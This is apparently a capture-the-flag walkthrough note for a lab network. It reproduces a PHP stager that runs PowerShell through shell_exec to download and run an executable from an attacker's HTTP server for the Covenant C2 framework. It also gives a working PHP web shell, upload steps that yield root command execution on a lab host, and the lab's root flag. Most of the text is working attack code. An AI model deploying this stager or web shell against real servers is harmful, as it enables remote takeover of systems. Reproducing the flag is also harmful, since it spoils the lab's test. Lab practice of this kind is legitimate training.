 Now that we have a working executable that can bypass anti-virus, we need a way to execute it. We know that web servers cannot execute applications, so we will need to write a PHP wrapper to download and execute our code for us.  

We will be using a template payload/wrapper that we can use to deploy PowerShell commands on the remote server for this task. This will allow us to download and execute our malicious application. Find the source code for the template below.  

```
 <?php  
  function compile_stager() {  
    $init = "powershell.exe";  
    $payload = ""; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
  }   
  
  compile_stager();  
?>
```

The above wrapper takes advantage of the `shell_exec` command to open a process on the server and execute commands as the webserver. Of course, this will only work if you can execute privileges on the system.  

You can decide to either upload an exe grunt or create a ps1 grunt either will work with the template.  

To download our malicious grunt we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.

To download our malicious grunt, we can set up an HTTP server on our attacking machine using python, updog, etc and use `iex` or `Invoke-WebRequest` to make a remote call to our server. Find the download payload below.  

`Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe`

To implement this payload, you will need to change the address and port to your attacking machine. You may also want to begin by identifying the webserver's root directory to identify where you can and cannot execute the file, such as if AppLocker or other solutions are employed on the server.  

After we have downloaded the file, we will want to execute it using PowerShell. First, find the execution payload below.  

`.\notashell.exe` or `cmd /c .\notashell.exe`

We can put together all payloads into the wrapper to complete our PHP payload. Find the final PHP code below.  

```
<?php  
  function get_stager() {  
    $init = "powershell.exe";  
    $payload = "Invoke-WebRequest 127.0.0.1:8000/shell.exe -outfile notashell.exe"; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
  }  
 function execute_stager() {  
  $init = "powershell.exe";  
    $payload = ".\notashell.exe"; // Insert PowerShell payload here  
    $execution_command = "shell_exec";  
    $query = $execution_command("$init $payload");  
    echo $query; // Execute query  
 }  
  get_stager();  
  execute_stager();  
  die();  
?>
```

We now have a working PHP shell that operates with Covenant. You can find the source code on GitHub, [https://github.com/Cryilllic/PHP-PowerShell/tree/main](https://github.com/Cryilllic/PHP-PowerShell/tree/main).


---

# Your job

Time to try and exploit this web-app. Remember way back in [[Task 29 - Thanks, I'll let myself in.]] we found the `/images/` directory so we can run PHP code, that isn’t malicious. Well let’s give that a go.

> [!failure]
> Don't bother yourself trying the above method, according to someone else's writeups it doens't work.

Instead follow the [[Marmeus' walkthrough]].


## Uploading a web-shell to 10.200.X.31

It's used the following web-shell which didn’t get caught.

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
```

1. Create a php file with the above code on your attacking machine `webshell.php`.
2. Navigate to http://10.200.X.31/img_upload.php and upload the file.
3. Navigate to http://10.200.X.31/images/webshell.php.
	![[Task 35 - Wrapping the burrito-20241014144328981.webp]]
	Now you can run any command on the form.
	
> [!INFO]
You are root onto  S-SRV01.

---

## Flag after rooting S-SRV01

- Run the following on the form.
	`type C:\Users\Administrator\Desktop\root.txt`
	
	HOLO{50f9614809096ffe2d246e9dd21a76e1}

- Submit the user flag on Task 4, question 5.

**Next step:** [[Task 36 -  That's not a cat that's a dawg#hoaxshell]]

